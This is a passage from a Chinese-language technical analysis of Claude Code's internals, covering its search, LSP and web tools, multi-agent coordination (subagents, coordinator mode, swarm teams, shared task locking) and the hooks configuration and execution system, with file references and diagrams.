- output 含 `structuredPatch`（hunk）+ `gitDiff`
- 与 FileEditTool 共享大量基础设施（VS Code 通知、LSP、文件历史、skill 发现）

### 25.4 GlobTool

`src/tools/GlobTool/GlobTool.ts`：

- `isConcurrencySafe:true`、`isReadOnly:true`、`isSearchOrReadCommand:{isSearch:true}`
- `call`：`glob(pattern, path, {limit:100})`，结果 `toRelativePath` 相对化省 token
- `checkPermissions`：`checkReadPermissionForTool`

### 25.5 GrepTool

`src/tools/GrepTool/GrepTool.ts`：

- 底层 `ripGrep`（ripgrep 包装）
- `--hidden` + 排除 VCS 目录（`.git/.svn/.hg...`）+ `--max-columns 500`
- 三种 output_mode：`files_with_matches`（默认，按 mtime 排序）、`content`、`count`
- `DEFAULT_HEAD_LIMIT=250`，`head_limit:0` 为无限
- `applyHeadLimit` + `offset` 分页，相对化路径省 token
- ignore patterns 从 `toolPermissionContext` 取

## 第 26 章 LSP 工具

`src/tools/LSPTool/LSPTool.ts` 暴露语言服务器协议（Language Server Protocol）能力给模型：

- **`isLsp: true`**、`shouldDefer: true`（延迟加载）、`isEnabled: isLspConnected()`
- `isConcurrencySafe:true`、`isReadOnly:true`
- **9 个 operation**：`goToDefinition`/`findReferences`/`hover`/`documentSymbol`/`workspaceSymbol`/`goToImplementation`/`prepareCallHierarchy`/`incomingCalls`/`outgoingCalls`
- `validateInput`（`:155`）：先按 discriminated union 校验，再 stat 文件存在性、`MAX_LSP_FILE_SIZE_BYTES`（10MB）、UNC 路径跳过
- `call`（`:224`）：`waitForInitialization` → `getLspServerManager()` → `getMethodAndParams` → LSP method 调用；文件未打开则 `didOpen`
- 格式化在 `formatters.ts`（`formatGoToDefinitionResult` 等）
- `checkPermissions`：`checkReadPermissionForTool`（读权限）

LSP 工具让模型具备了真正的代码理解能力——跳转定义、查找引用、悬停文档，而非仅靠文本搜索。这极大提升了模型在大型代码库中的导航效率。

## 第 27 章 Web 工具

### 27.1 WebFetchTool

`src/tools/WebFetchTool/WebFetchTool.ts`：

- `shouldDefer:true`、`isConcurrencySafe:true`、`isReadOnly:true`
- schema：`url` + `prompt`
- `checkPermissions`（`:104`）：
  - `isPreapprovedHost` → allow
  - 按 hostname 生成 `ruleContent`（`domain:xxx`），查 deny/ask/allow 规则
  - 默认 ask，带 `buildSuggestions`（addRules 到 localSettings）
- `validateInput`：URL 解析
- `call`（`:208`）：`getURLMarkdownContent` → 跨主机重定向则返回提示让模型再次调用；`applyPromptToMarkdown` 用小模型对内容跑 prompt；预批准 markdown 小内容直接返回；二进制（PDF）落盘
- `mapToolResultToToolResultBlockParam`：返回 `result`

### 27.2 WebSearchTool

`src/tools/WebSearchTool/WebSearchTool.ts`：

- schema：`query` + `allowed_domains?` + `blocked_domains?`
- 用 `queryModelWithStreaming` + Beta web search tool 类型
- 输出含 search hits（title/url）

## 第 28 章 结果格式化与大结果落盘

### 28.1 mapToolResultToToolResultBlockParam

每个工具实现 `mapToolResultToToolResultBlockParam(content, toolUseID): ToolResultBlockParam`，把内部 Output 转为 API 的 `{tool_use_id, type:'tool_result', content, is_error?}`。这是工具结果回填给模型的统一格式。

### 28.2 大结果落盘

当工具结果超过 `maxResultSizeChars` 时，`processToolResultBlock`（`utils/toolResultStorage.ts`）将完整结果保存到 tool-results 目录，模型只收到 `<persisted-output>` 预览（`buildLargeToolResultMessage`，BashTool `:591`）。这一机制防止了超大工具结果（如 64MB 的命令输出）撑爆上下文窗口。

### 28.3 MCP 工具特殊路径

MCP 工具走单独路径：`isMcpTool(tool)` 时 PostToolUse hooks 可改 `updatedMCPToolOutput`，再 `addToolResult`。这允许钩子在 MCP 工具结果返回给模型前对其进行修改。

### 28.4 acceptFeedback / contentBlocks / newMessages

- **acceptFeedback / contentBlocks**：用户批准工具调用时附带的反馈/图片块追加到 tool_result 之后
- **newMessages**：工具可返回额外消息（Read 的 PDF document 块、image metadata），在 tool_result 后追加

### 28.5 Hook 集成点

工具生命周期中嵌入两处 hook 集成点：

**`runPreToolUseHooks`**（`toolHooks.ts:435`）`executePreTools` 产出多种结果类型：

| 结果 | 含义 |
|---|---|
| `message` | UI 进度/附件 |
| `blockingError` | 转为 `hookPermissionResult: {behavior:'deny'}` |
| `preventContinuation` + `stopReason` | 标记停止后续 |
| `permissionBehavior`（allow/ask/deny）| `hookPermissionResult`，带 `decisionReason:{type:'hook', hookName, hookSource, reason}` |
| `updatedInput`（无权限决策时）| `hookUpdatedInput` 透传修改 |
| `stop` | 立即停止 |

在 `checkPermissionsAndCallTool:800-862` 消费，hook 结果先于 `canUseTool`。

**`resolveHookPermissionDecision`**（`:332`）合并 hook 决策与规则权限：

- **hook allow 不直接放行** → 仍跑 `checkRuleBasedPermissions`，deny 规则可覆盖；safetyCheck 也仍生效
- **hook deny** → 直接拒绝
- **hook ask / 无决策** → `canUseTool(..., forceDecision)` 正常权限流

**`runPostToolUseHooks`**（`:39`）工具成功后运行，可修改 MCP 工具输出或注入附件消息。

**`runPostToolUseFailureHooks`**（`:193`）工具抛错时运行，如非 AbortError。

Hook 计时方面，`SLOW_PHASE_LOG_THRESHOLD_MS=2000` 慢日志；`HOOK_TIMING_DISPLAY_THRESHOLD_MS=500` 内联计时摘要（ant-only）。

---

# 第五部分 多代理协调系统

Claude Code 不仅能作为单一代理执行任务，还具备复杂的多代理协作能力。这部分揭示了它如何通过子代理、Coordinator 模式、Swarm/Agent Teams 三种递进的模型实现代理间的分工、通信与协调。

## 第 29 章 三种协作模型

该项目并不是单一的"swarm 协调器"，而是包含**三种递进的多代理模型**，由不同 feature gate 控制：

| 模型 | 入口 | 隔离 | 通信 | 启用条件 |
|---|---|---|---|---|
| **子代理 (Subagent)** | `Agent` 工具（`AgentTool.tsx`）| 进程内 / worktree / remote | 一次性结果回流 `<task-notification>` | 默认可用 |
| **Fork 子代理** | `Agent` 工具（省略 `subagent_type`）| 继承父上下文 + worktree | 异步 `<task-notification>` | `FORK_SUBAGENT` gate |
| **Coordinator 协调模式** | `CLAUDE_CODE_COORDINATOR_MODE` 环境变量 | worker 异步 | 异步通知 + SendMessage | `COORDINATOR_MODE` gate |
| **Agent Teams / Swarm** | `Agent` 工具带 `name` + `team_name` | tmux/iTerm2 面板 或 进程内 | mailbox（文件邮箱）+ SendMessage | `isAgentSwarmsEnabled()` |

**关键事实**：没有传统意义上集中式的"Swarm 协调器做负载均衡"。负载分配由主代理（LLM）自行决定在一条消息里发多个 `Agent` 工具调用实现并行；并发控制是软性的。唯一的硬性并发约束是 `claimTaskWithBusyCheck`（一个 agent 同时只能认领一个未完成共享任务）。


```mermaid
graph TB
    MAIN[主代理 Main Loop/REPL] --> AGENT[AgentTool.call]
    AGENT --> D1{路由判定}
    D1 -->|team_name + name| TEAM[spawnTeammate Swarm路径]
    D1 -->|无 subagent_type + FORK| FORK[Fork路径]
    D1 -->|有 subagent_type| SUB[普通子代理]
    TEAM --> BACK{后端选择}
    BACK -->|isInProcessEnabled| INP[进程内 AsyncLocalStorage隔离]
    BACK -->|有tmux/iTerm2| PANE[tmux/iTerm2面板 独立进程]
    SUB --> ASYNC{shouldRunAsync?}
    ASYNC -->|是| BG[后台 task-notification回流]
    ASYNC -->|否| SYNC[同步等待结果]
    FORK --> BG2[forceAsync task-notification回流]
    INP --> MAIL[mailbox文件邮箱 + 共享任务]
    PANE --> MAIL
```

## 第 30 章 AgentTool 统一入口

文件：`src/tools/AgentTool/AgentTool.tsx`（`AgentTool` 定义于第 196 行 `buildTool({...})`）。

### 30.1 输入 schema

`src/tools/AgentTool/AgentTool.tsx`（第 82–125 行）：

- 基础：`description`、`prompt`、`subagent_type`、`model`、`run_in_background`
- 多代理扩展（第 93–102 行）：`name`（让 agent 可被 SendMessage 寻址）、`team_name`、`mode`（权限模式）
- 隔离：`isolation: 'worktree' | 'remote'`、`cwd`

### 30.2 call 主流程

`call`（第 239 行起）的关键分支：

1. **Teammate 派生分支**（第 284–316 行）：当 `teamName && name` 时走 `spawnTeammate()`（swarm 路径），返回 `teammate_spawned`。
2. **Fork 路由**（第 322–336 行）：`subagent_type` 省略 + `isForkSubagentEnabled()` → `FORK_AGENT`；并禁止递归 fork（第 332 行 `isInForkChild`）。
3. **普通子代理**：按 `subagent_type` 查 `agentDefinitions.activeAgents`，经 `filterDeniedAgents` 权限过滤。

### 30.3 异步 vs 同步决策

`shouldRunAsync`（第 557–567 行）在以下任一为真时异步执行：`run_in_background`、`selectedAgent.background`、`isCoordinator`、`forceAsync`(fork)、`assistantForceAsync`(KAIROS)、proactive。`forceAsync` 让所有 fork 派生统一走 `<task-notification>` 模型。

### 30.4 Worker 工具池独立装配

第 573–577 行：

```ts
const workerTools = assembleToolPool(workerPermissionContext, appState.mcp.tools)
```

worker 的权限模式默认 `acceptEdits`，不受父代理工具限制约束。Fork 路径例外：用 `useExactTools: true` 继承父的精确工具数组（第 627–633 行），**保证 prompt cache 前缀字节一致**。这是 prompt cache 友好设计在多代理中的体现。

### 30.5 Worktree 隔离

第 590–602 行：`isolation: 'worktree'` → `createAgentWorktree(slug)`，slug 为 `agent-{agentId前8位}`。fork + worktree 时注入路径翻译提示 `buildWorktreeNotice`（第 598–602 行，`forkSubagent.ts:205`）。完成后 `cleanupWorktreeIfNeeded`（第 644 行）：无改动则删除 worktree，有改动则保留。

## 第 31 章 子代理类型与能力

### 31.1 内置代理注册

`src/tools/AgentTool/builtInAgents.ts` 第 22 行 `getBuiltInAgents()`：

| 代理 | 文件 | 工具 | 特性 |
|---|---|---|---|
| `general-purpose` | `built-in/generalPurposeAgent.ts` | 全工具 `['*']` | 研究/搜索/多步任务 |
| `statusline-setup` | `built-in/statuslineSetup.ts` | | 状态行配置 |
| `Explore` | `built-in/exploreAgent.ts:64` | `disallowedTools` 含 Edit/Write/NotebookEdit/Agent/ExitPlanMode | 只读搜索专员，外部用户用 haiku，ant 用 inherit，`omitClaudeMd: true` |
| `Plan` | `built-in/planAgent.ts:73` | 只读规划 | 软件架构师，强制输出 "Critical Files for Implementation" |
| `claude-code-guide` | | | 非 SDK 入口可见 |
| `verification` | `built-in/verificationAgent.ts:134` | `background: true` | 对抗式验证专员，强制 `VERDICT: PASS/FAIL/PARTIAL` |

Coordinator 模式下改用 `getCoordinatorAgents()`（`builtInAgents.ts:36-43`，文件 `coordinator/workerAgent.js` 由 feature gate 懒加载）。

### 31.2 一次性 vs 可继续

`constants.ts` 第 9 行：`ONE_SHOT_BUILTIN_AGENT_TYPES = {Explore, Plan}` —— 这些代理结果不附带 agentId/SendMessage 尾巴，节省 token。它们是"即用即弃"的，无法被 SendMessage 续派。

### 31.3 工具池限制

`src/constants/tools.ts`：

- `ALL_AGENT_DISALLOWED_TOOLS`（第 36 行）：TaskOutput、ExitPlanMode、AskUserQuestion、TaskStop；非 ant 用户禁 Agent（防递归）
- `ASYNC_AGENT_ALLOWED_TOOLS`（第 55 行）：异步代理白名单（Read/Grep/Glob/Bash/Edit/Write/Skill 等）
- `IN_PROCESS_TEAMMATE_ALLOWED_TOOLS`（第 77 行）：in-process teammate 额外允许 TaskCreate/Get/List/Update、SendMessage、Cron 工具
- `filterToolsForAgent`（`agentToolUtils.ts:70`）：按代理类型/异步/权限模式过滤

### 31.4 自定义代理加载

`src/tools/AgentTool/loadAgentsDir.ts` 的 `AgentJsonSchema`（第 73 行）支持 frontmatter/JSON 定义：`tools`、`disallowedTools`、`model`（含 'inherit'）、`permissionMode`、`mcpServers`、`hooks`、`maxTurns`、`skills`、`memory`、`background`、`isolation`。这允许用户在 `.claude/agents/` 目录下定义自己的代理。

## 第 32 章 Coordinator 协调模式

文件：`src/coordinator/coordinatorMode.ts`。

### 32.1 模式判定

`isCoordinatorMode`（第 36 行）：`feature('COORDINATOR_MODE')` + 环境变量 `CLAUDE_CODE_COORDINATOR_MODE`。与 fork 互斥（`forkSubagent.ts:34`）。

### 32.2 协调器系统提示

`getCoordinatorSystemPrompt`（第 111 行）明确角色为 orchestrator，工具只有 `Agent`（派生）/ `SendMessage`（续派）/ `TaskStop`（停止）。工作流分为四阶段：

1. **Research（并行）**：多个 worker 并行收集信息
2. **Synthesis（主代理）**：汇总研究结果
3. **Implementation**：执行实现
4. **Verification**：验证结果

### 32.3 并发指导（软约束）

提示词第 213–219 行给出并发指导（软约束，非硬限制）：

- 只读研究：自由并行
- 写密集实现：每组文件一次一个
- 验证：可与实现在不同文件区并行

**无硬编码并发上限**，靠主代理在单条消息内发多个 `Agent` 调用实现并行（提示词第 213 行 "make multiple tool calls in a single message"）。这体现了 Claude Code 的设计哲学——**让 LLM 自主决定并发，而非用硬性代码约束**。

### 32.4 Worker 上下文注入

`getCoordinatorUserContext`（第 80 行）告诉主代理 worker 能用哪些工具、MCP 服务器、scratchpad 目录（跨 worker 持久知识，`tengu_scratch` gate）。

### 32.5 会话模式恢复

`matchSessionMode`（第 49 行）：resume 会话时翻转环境变量以匹配存储的 mode。

## 第 33 章 Swarm 与 Agent Teams

### 33.1 启用闸门

`src/utils/agentSwarmsEnabled.ts:24` `isAgentSwarmsEnabled`：

- ant 用户：始终启用
- 外部用户：需 `CLAUDE_CODE_EXPERIMENTAL_AGENT_TEAMS` 或 `--agent-teams` flag，且 GrowthBook `tengu_amber_flint` 开启

### 33.2 派生入口

`src/tools/shared/spawnMultiAgent.ts:1088` `spawnTeammate` 分发到 `handleSpawn`（第 1040 行）选择后端：

- `isInProcessEnabled()` → `handleSpawnInProcess`（第 840 行）：同进程，AsyncLocalStorage 隔离
- 否则 `detectAndGetBackend()` → tmux/iTerm2 面板 `handleSpawnSplitPane`（第 305 行）或 `handleSpawnSeparateWindow`（第 545 行）
- auto 模式下无可用面板则回退 in-process（第 1062 行 `markInProcessFallback`）

### 33.3 进程外（tmux/iTerm2）teammate

通过 `sendCommandToPane` 在新 pane 执行 `claude` CLI（第 440–444 行）。CLI 参数传递身份：`--agent-id`、`--agent-name`、`--team-name`、`--agent-color`、`--parent-session-id`、`--plan-mode-required`（第 404–414 行）。继承 flag：权限模式、`--model`、`--settings`、`--plugin-dir`（`buildInheritedCliFlags` 第 208 行）。**初始 prompt 经 mailbox 投递**（第 513 行 `writeToMailbox`），teammate 启动后轮询邮箱。agentId 格式：`agentName@teamName`（`formatAgentId`）。

### 33.4 进程内（in-process）teammate

`spawnInProcessTeammate`（`src/utils/swarm/spawnInProcess.ts:104`）：创建 `TeammateIdentity`、独立 `AbortController`、`createTeammateContext`（AsyncLocalStorage）、`registerTask` 注册到 AppState。执行循环 `startInProcessTeammate`（`src/utils/swarm/inProcessRunner.ts`）：

- `runWithTeammateContext()` 提供身份隔离
- 进度追踪、idle 通知 leader、plan mode 审批流
- mailbox 轮询 + 权限同步（`leaderPermissionBridge.ts`、`permissionSync.ts`）
- 用 leader 的 ToolUseConfirm 队列处理 'ask' 权限（带 worker 徽章）

初始 prompt 直接传入（不经 mailbox，第 1011 行注释）。

### 33.5 InProcessTeammateTaskState

`src/tasks/InProcessTeammateTask/types.ts:22` 关键字段：

- `identity`（TeammateIdentity）
- `abortController`（杀整个 teammate）
- `currentWorkAbortController`（仅中断当前轮）
- `awaitingPlanApproval`
- `permissionMode`（独立 Shift+Tab 循环）
- `pendingUserMessages`
- `isIdle`
- `shutdownRequested`
- `onIdleCallbacks`（leader 等待用，免轮询）

`TEAMMATE_MESSAGES_UI_CAP = 50`（第 101 行）：AppState 中只保留最近 50 条消息，全量在磁盘。注释指出曾出现单 agent 500+ turn 占 20MB、292 agents 2 分钟达 36.8GB 的事故——这是 UI cap 的由来。

## 第 34 章 代理间消息传递

### 34.1 SendMessage 工具

`src/tools/SendMessageTool/SendMessageTool.ts:520`，`isEnabled` 依赖 `isAgentSwarmsEnabled()`。多种寻址方式：

1. **in-process subagent 路由**（第 802–874 行）：查 `appState.agentNameRegistry.get(input.to)` 或当 raw agentId；若 `LocalAgentTask` running → `queuePendingMessage`（在工具轮边界 drain）；若 stopped → `resumeAgentBackground` 自动从磁盘 transcript 恢复。
2. **Teammate mailbox**（`handleMessage` 第 149 行 / `handleBroadcast` 第 191 行）：`writeToMailbox` 写文件邮箱。
3. **广播** `to: "*"` → 遍历 teamFile.members 投递。
4. **结构化消息**（第 46 行 discriminatedUnion）：`shutdown_request` / `shutdown_response`(approve/reject) / `plan_approval_response`(approve/reject，仅 team-lead 可发)。
5. **跨会话**（feature `UDS_INBOX`）：`bridge:<session-id>` 走 Remote Control（需用户确认，第 585 行）；`uds:<socket>` 走本地 socket。

### 34.2 mailbox 机制

`src/utils/teammateMailbox.ts` 实现文件邮箱，teammate 轮询读取。`createIdleNotification`、`isShutdownRequest`、`isPermissionResponse`、`markMessageAsReadByIndex`。in-process teammate 用 `readMailbox` + `processMailboxPermissionResponse`。

## 第 35 章 共享任务系统

需要区分两套"Task"概念：

- `src/Task.ts`：进程内执行单元的**状态类型**（local_agent/local_shell/in_process_teammate 等）
- `src/utils/tasks.ts`：swarm 共享的**工作项任务**（todo-like），团队级

### 35.1 任务数据模型

`src/utils/tasks.ts:76` `TaskSchema`：

```ts
{
  id, subject, description, activeForm, owner?,
  status: pending | in_progress | completed,
  blocks: string[],      // 本任务阻塞哪些任务
  blockedBy: string[],   // 本任务被哪些任务阻塞
  metadata?
}
```

### 35.2 文件存储与锁

- 每个 team 一个任务目录：`~/.claude/tasks/<sanitizedTeamName>/<id>.json`
- `getTaskListId()`（第 199 行）：优先级 `CLAUDE_CODE_TASK_LIST_ID` > teammate context teamName > `CLAUDE_CODE_TEAM_NAME` > leaderTeamName > sessionId —— **保证同队所有 teammate 共享同一任务列表**
- `LOCK_OPTIONS`（第 102 行）：retries=30，专为 ~10+ 并发 swarm agent 设计
- 高水位文件 `.highwatermark`（第 92 行）防止 reset 后 ID 复用

### 35.3 依赖操作

- `blockTask`（第 458 行）：双向更新 A.blocks 与 B.blockedBy
- `deleteTask`（第 393 行）：级联清理其他任务中对本任务的引用

### 35.4 认领与并发控制

`claimTask`（第 541 行）/ `claimTaskWithBusyCheck`（第 618 行）返回 `ClaimTaskResult`，reason 可为 `task_not_found | already_claimed | already_resolved | blocked | agent_busy`：

- **任务级锁**：`claimTask` 锁单个 task 文件
- **列表级锁 + busy 检查**：`checkAgentBusy:true` 时用列表级锁原子地检查"该 agent 是否已拥有其他未完成任务"，防 TOCTOU —— **这是真正的"负载均衡/并发控制"**：一个 agent 一次只能认领一个未完成任务
- `blocked` 检查：`blockedBy` 中存在未完成任务则拒绝认领
- `getAgentStatuses`（第 763 行）：按任务归属判定 agent idle/busy
- `unassignTeammateTasks`（第 818 行）：teammate 被杀/退出时将其任务重置为 pending 并通知

in-process teammate 工具池包含 TaskCreate/Get/List/Update（`IN_PROCESS_TEAMMATE_ALLOWED_TOOLS`），通过 `inProcessRunner.ts:87` 的 `claimTask/listTasks/updateTask` 主动认领共享任务。


```mermaid
sequenceDiagram
    participant TL as Team-Lead
    participant TM as Teammate(in-process)
    participant TSK as tasks.ts 文件+锁

    TL->>TSK: TaskCreate(subject, blocks:[...])
    TSK->>TSK: createTask 列表锁
    TM->>TSK: TaskList 看到 #3
    TM->>TSK: claimTask(#3, checkAgentBusy:true)
    TSK->>TSK: 列表级锁
    TSK->>TSK: 检查 blockedBy 全完成?
    TSK->>TSK: 检查 agent 无其他未完成任务?
    TSK-->>TM: success, task (设置 owner)
    TM->>TSK: TaskUpdate(status:in_progress)
    Note over TM: ... 执行任务 ...
    TM->>TSK: TaskUpdate(#3, completed)
    TM->>TL: SendMessage idle通知
```

## 第 36 章 隔离机制与结果回流

### 36.1 隔离机制总结

| 维度 | 机制 | 位置 |
|---|---|---|
| 上下文隔离 | 子代理独立 `promptMessages`，看不到父对话（除 fork）| AgentTool.tsx:538 |
| Fork 上下文继承 | `buildForkedMessages` 克隆父 assistant 消息 + 占位 tool_result + 指令 | forkSubagent.ts:107 |
| 工作目录隔离 | `createAgentWorktree` + `runWithCwdOverride` | AgentTool.tsx:591,641 |
| 进程隔离 | tmux/iTerm2 pane 独立进程 | spawnMultiAgent.ts |
| AsyncLocalStorage 隔离 | in-process teammate `runWithTeammateContext` | inProcessRunner.ts |
| 权限隔离 | worker 独立 `workerPermissionContext`；teammate 独立 `permissionMode` | AgentTool.tsx:573 |
| AgentId 隔离 | `createAgentId` / `formatAgentId(name,team)` | AgentTool.tsx:580 |
| 递归 fork 防护 | `isInForkChild` 扫描 `FORK_BOILERPLATE_TAG` | forkSubagent.ts:78 |
| 子代理禁派生 | in-process teammate 不能 spawn teammate/background agent | AgentTool.tsx:272-280 |

### 36.2 子代理结果回流

异步生命周期 `runAsyncAgentLifecycle`（`agentToolUtils.ts:508`）：

1. `makeStream` 迭代 `runAgent()` 产出消息，逐条 push 到 `agentMessages` + 更新 `updateAsyncAgentProgress`
2. 完成 → `finalizeAgentTool`（第 276 行）打包结果
3. **先标完成** `completeAsyncAgent`（第 603 行）—— 让 `TaskOutput(block=true)` 立即解除阻塞；分类器/worktree 清理等可能挂的步骤必须在其后
4. 抽取最终文本 `extractTextContent`
5. `getWorktreeResult()` 清理 worktree
6. **`enqueueAgentNotification`**（第 624 行）回流

### 36.3 通知格式

`enqueueAgentNotification`（`LocalAgentTask.tsx:197`）原子检查 `notified` flag 防重复，然后 `abortSpeculation`（废弃推测结果），构造 XML：

```xml
<task-notification>
<task-id>{agentId}</task-id>
<tool-use-id>...</tool-use-id>
<output-file>{path}</output-file>
<status>completed|failed|killed</status>
<summary>Agent "{desc}" completed</summary>
<result>{finalMessage}</result>           <!-- 可选 -->
<usage><total_tokens>N</total_tokens><tool_uses>N</tool_uses><duration_ms>N</duration_ms></usage>
<worktree><path>..</path><branch>..</branch></worktree>  <!-- 可选 -->
</task-notification>
```

通过 `enqueuePendingNotification`（`messageQueueManager`）以 `mode: 'task-notification'` 注入主代理对话流，作为 **user-role 消息** 到达（`coordinatorMode.ts:144` 注明"看似 user 消息但不是"）。`<task-id>` 即 agentId，主代理用其作 `SendMessage({to: agentId})` 续派。

### 36.4 中断时的部分结果

`extractPartialResult`（`agentToolUtils.ts:488`）：killed 时倒序找最后一条 assistant 消息文本作为 `finalMessage`，附带 `<status>killed</status>`。

### 36.5 TaskStop

`stopTask`（`src/tasks/stopTask.ts:38`）：校验 running → `getTaskByType(task.type).kill()` → 标 `notified:true`。对 local_shell 抑制 "exit code 137" 噪音；对 agent 任务不抑制（保留 partial result）。`killAllRunningAgentTasks`（`LocalAgentTask.tsx:309`）用于 coordinator 模式 ESC 取消所有子代理。


```mermaid
sequenceDiagram
    participant MA as 主代理
    participant AT as AgentTool
    participant RAL as runAsyncAgentLifecycle
    participant WK as Worker(runAgent)
    participant MN as messageQueueManager

    MA->>AT: Agent(description, prompt)
    AT->>RAL: registerAsyncAgent
    RAL->>WK: makeStream → runAgent
    RAL-->>AT: async_launched
    AT-->>MA: 已启动 等待结果
    Note over MA: 结束本轮回复
    WK-->>RAL: 迭代消息 更新progress
    RAL->>RAL: finalizeAgentTool
    RAL->>RAL: completeAsyncAgent (先标完成)
    RAL->>RAL: extractTextContent + worktree清理
    RAL->>MN: enqueueAgentNotification
    MN-->>MA: task-notification (user-role)
    MA->>AT: SendMessage(to:agentId, msg) 续派
```

### 36.6 核心结论

1. **无集中式负载均衡器**：并行度由主代理 LLM 在单条消息里发多个 `Agent` 调用决定；唯一的硬性并发约束是 `claimTaskWithBusyCheck`。
2. **三种回流通道**：subagent 一次性结果（`<task-notification>`）、teammate 邮箱（mailbox 文件）、共享任务状态（tasks.ts）。
3. **隔离分层**：worktree（文件系统）+ AsyncLocalStorage（in-process 身份/上下文）+ 独立进程（tmux）+ 独立 AbortController。
4. **真正的"任务依赖"在 `src/utils/tasks.ts`**，而非 `src/Task.ts`；前者是团队级工作项（blocks/blockedBy + 文件锁 + busy 检查），后者是进程内执行单元的状态机。

---

# 第六部分 Hooks 钩子系统

钩子系统是 Claude Code 可扩展性的关键。它允许用户在工具调用、会话事件等关键节点注入自定义逻辑，实现权限决策、输入修改、上下文注入等能力。

> 重要澄清：`src/hooks/` 目录**不是**钩子（Hook）系统本身，而是 **React UI hooks**（如 `useVoice.ts`、`useVimInput.ts`、`useTextInput.ts`、`useRemoteSession.ts` 等 UI 逻辑）。真正的钩子系统位于 `src/utils/hooks.ts`（5023 行）及相关文件。

## 第 37 章 钩子事件与类型

### 37.1 钩子事件（28 种）

定义于 `src/entrypoints/sdk/coreTypes.ts:25`（`HOOK_EVENTS`）：

```
PreToolUse, PostToolUse, PostToolUseFailure, Notification, UserPromptSubmit,
SessionStart, SessionEnd, Stop, StopFailure, SubagentStart, SubagentStop,
PreCompact, PostCompact, PermissionRequest, PermissionDenied, Setup,
TeammateIdle, TaskCreated, TaskCompleted, Elicitation, ElicitationResult,
ConfigChange, WorktreeCreate, WorktreeRemove, InstructionsLoaded, CwdChanged, FileChanged
```

每种事件的语义、匹配字段、退出码约定以 `hooksConfigManager.ts` 的 `getHookEventMetadata()`（第 26 行起）为权威文档。

### 37.2 钩子类型（HookCommand 判别联合）

`src/schemas/hooks.ts` 中 `HookCommandSchema`（第 176 行）定义 4 种持久化钩子类型：

| 类型 | 字段 | 说明 |
|---|---|---|
| `command` | `command`, `if`, `shell`(bash/powershell), `timeout`, `statusMessage`, `once`, `async`, `asyncRewake` | 执行 shell 命令 |
| `prompt` | `prompt`（用 `$ARGUMENTS` 占位）, `model`, `timeout`, `if`, `once` | 调用 LLM 评估 |
| `agent` | `prompt`, `model`, `timeout`, `if`, `once` | 起子代理做验证 |
| `http` | `url`, `headers`, `allowedEnvVars`, `timeout`, `if`, `once` | POST JSON 到 URL |

另有内部类型：`callback`（`src/types/hooks.ts:211`，SDK 注册的 JS 回调）、`function`（会话存储的函数钩子）。

## 第 38 章 钩子配置与来源合并

### 38.1 settings.json 配置

`settings.json` 的 `hooks` 键 → `HooksSchema`（`src/schemas/hooks.ts:211`）：

```
z.partialRecord(z.enum(HOOK_EVENTS), z.array(HookMatcherSchema()))
```

`HookMatcherSchema`（第 194 行）= `{ matcher?: string, hooks: HookCommand[] }`。

示例配置：

```json
{
  "hooks": {
    "PreToolUse": [
      { "matcher": "Bash", "hooks": [
          { "type": "command", "command": "node check.sh",
            "if": "Bash(git *)", "timeout": 10 }
      ]}
    ],
    "Stop": [ { "hooks": [
        { "type": "command", "command": "python summarize.py" }
    ] } ],
    "UserPromptSubmit": [ { "hooks": [
        { "type": "http", "url": "https://...",
          "headers": { "Authorization": "Bearer $TOKEN" },
          "allowedEnvVars": ["TOKEN"] }
    ] } ]
  }
}
```

- `matcher`：对工具类事件匹配工具名（支持精确、`|` 分隔、正则，`matchesPattern` 见 `hooks.ts:1346`）；对 SessionStart 匹配 source 等（`getMatchingHooks` 的 switch，`hooks.ts:1616-1670`）
- `if`：使用权限规则语法（如 `Bash(git *)`）在执行前过滤，避免无谓 spawn（`prepareIfConditionMatcher`，`hooks.ts:1390`）

### 38.2 配置来源与优先级

`hooksConfigSnapshot.ts` 的快照在启动时由 `captureHooksConfigSnapshot()`（第 95 行）捕获。来源合并顺序：`userSettings → projectSettings → localSettings → policySettings`（managed）。策略控制：

- `disableAllHooks`（全禁）
- `allowManagedHooksOnly`（仅 managed）
- `strictPluginOnlyCustomization`（仅插件）

其他来源：插件（plugin hooks）、技能（skill hooks）、代理 frontmatter（`registerFrontmatterHooks.ts`，其中 Stop 对子代理转为 SubagentStop）、会话钩子（SDK callback，`sessionHooks.ts`）。


```mermaid
graph LR
    subgraph 钩子配置来源
        US[userSettings]
        PS[projectSettings]
        LS[localSettings]
        POL[policySettings managed]
        PL[plugin hooks]
        SK[skill hooks]
        FM[frontmatter hooks]
        SES[session hooks SDK callback]
    end
    US --> SNAP[captureHooksConfigSnapshot 快照]
    PS --> SNAP
    LS --> SNAP
    POL --> SNAP
    PL --> SNAP
    SK --> SNAP
    FM --> SNAP
    SES --> SNAP
    SNAP --> GATE{策略门}
    GATE -->|disableAllHooks| OFF[全禁]
    GATE -->|allowManagedHooksOnly| MO[仅managed]
    GATE -->|strictPluginOnlyCustomization| PO[仅插件]
    GATE -->|正常| MATCH[getMatchingHooks matcher+if过滤]
    MATCH --> EXEC[executeHooks 执行]
```

## 第 39 章 钩子执行机制

核心是异步生成器 `executeHooks()`（`hooks.ts:1952`），所有事件共用。

### 39.1 执行流程

1. **门控检查**：`shouldDisableAllHooksIncludingManaged()`、`CLAUDE_CODE_SIMPLE`、`shouldSkipHookDueToTrust()`（第 286 行，交互模式下所有钩子都要求工作区信任，安全防御）
2. **匹配**：`getMatchingHooks()`（第 1603 行）→ 按 matcher、`if` 条件过滤、去重（`hookDedupKey` 第 1453 行）
3. **并行执行**：每个钩子带独立 timeout（默认 `TOOL_HOOK_EXECUTION_TIMEOUT_MS = 10min`，第 166 行），`createCombinedAbortSignal` 合并外部 signal
4. **命令钩子执行** `execCommandHook()`（第 747 行）：
   - shell 选择：`hook.shell ?? DEFAULT_HOOK_SHELL`（bash 或 powershell）
   - Windows bash 走 Git Bash（`findGitBashPath`），路径经 `windowsPathToPosixPath` 转换；PowerShell 走 `pwsh -NoProfile -NonInteractive -Command`
   - 环境变量：`CLAUDE_PROJECT_DIR`、`CLAUDE_PLUGIN_ROOT/DATA`、`CLAUDE_PLUGIN_OPTION_*`、`CLAUDE_ENV_FILE`（SessionStart/Setup/CwdChanged/FileChanged 时写入，供后续 bash 命令继承）
   - JSON 输入通过 stdin 写入；支持 `requestPrompt` 协议（钩子输出带 `{"prompt": id, ...}` 行可向用户弹窗提问，第 1062-1110 行）
5. **输出解析**：`parseHookOutput()`（第 399 行）—— 以 `{` 开头按 JSON 用 `hookJSONOutputSchema`（`types/hooks.ts:169`）校验；否则当纯文本
6. **JSON 输出处理**：`processHookJSONOutput()`（第 489 行）→ `HookResult`

### 39.2 异步钩子

